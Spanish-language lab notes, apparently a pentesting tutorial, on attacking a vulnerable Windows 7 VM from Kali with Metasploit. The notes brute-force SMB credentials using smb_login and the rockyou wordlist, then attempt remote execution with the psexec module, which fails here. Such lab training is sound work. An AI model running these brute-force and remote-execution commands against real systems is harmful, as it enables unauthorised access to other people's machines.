Maquina que vamos a utilizar **Kali Linux y Windows 7 vulnerable** ([https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing))  
  
Realizaremos un ataque al protocolo SMB utilizando metasploit, donde podremos utilizar un diccionario para probar a una alta velocidad si encuentra la contraseña para acceder a este protocolo y enumerar los recursos compartidos en el sistema.  

  

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 44.png|image 44.png]]

  

- Abrimos el Metasploit.
    
    Tenemos que entender que el Metasploit no solo sirve para explotar vulnerabilidades **también podemos utilizarlo para ataques de fuerza bruta, iniciar sesión mediante SSH , SMB, Pivoting, etc**…
    
    ![[Imagenes/image 1 33.png|image 1 33.png]]
    
      
    
- Haremos un ataque de fuerza bruta al protocolo SMB. Usaremos un modulo llamado
    
    - `use auxiliary/scanner/smb/smb_login`
        
        ![[Imagenes/image 2 32.png|image 2 32.png]]
        
          
        
    - `show options`
        
        ![[Imagenes/image 3 31.png|image 3 31.png]]
        
    
      
    
    - `set RHOST 10.0.3.6`
    - `set VERBOSE false` . Hacemos esto para que no muestre la información del ataque hasta que terminé , con esto logramos que vaya mas rápido el ataque.
    - `set SMBUser mario` . Vamos a suponer que se el usuario pero no la contraseña.
    - `set PASS_FILE /usr/share/wordlists/rockyou.txt` . Cargamos el diccionario .
        
        ![[Imagenes/image 4 30.png|image 4 30.png]]
        
    
      
    
    - `show options`
        
        ![[Imagenes/image 5 29.png|image 5 29.png]]
        
    
      
    
    - `run`
        
        ![[Imagenes/image 6 27.png|image 6 27.png]]
        

  

- Una vez que tenemos un usuario y una contraseña hay que intentar **iniciar sesión median PsExec** que dependerá si la maquina victima lo tiene habilitado o no. Usaremos el modulo `exploit/windows/smb/psexec`
    
    > [!important] **PsExec** implica ejecutar comandos o procesos en un sistema remoto desde tu máquina local. PsExec es una herramienta de Sysinternals desarrollada por Microsoft que permite la administración remota sin necesidad de instalar software adicional en el sistema remoto.<br><br>
    

- `use exploit/windows/smb/psexec`
- `show options`
    
    ![[Imagenes/image 7 25.png|image 7 25.png]]
    

  

- `set RHOSTS 10.0.3.6`
- `set SMBPass 123123`
- `set SMBUser mario`
- `show options`
    
    ![[Imagenes/image 8 23.png|image 8 23.png]]
    
      
    
    Hay que verificar que los siguientes datos estén bien.
    
    ![[Imagenes/image 9 21.png|image 9 21.png]]
    

  

- `run`
    
    ![[Imagenes/image 10 19.png|image 10 19.png]]
    
    Vemos que no funciona en este caso pero es importante probarlo.
